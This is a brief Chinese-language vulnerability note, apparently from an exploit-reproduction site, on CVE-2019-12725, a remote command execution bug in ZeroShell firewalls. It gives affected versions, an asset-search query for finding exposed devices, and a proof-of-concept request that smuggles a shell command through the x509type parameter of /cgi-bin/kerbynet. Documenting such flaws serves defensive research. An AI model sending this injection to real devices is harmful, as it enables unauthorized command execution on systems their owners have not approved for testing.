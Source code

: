 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>ZeroShell < 3.9.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Zeroshell-防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/zm-2.png)



验证的POC为



```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```



![img](../../../.vuepress/public/img/zm-1.png)



若有收获，就点个赞吧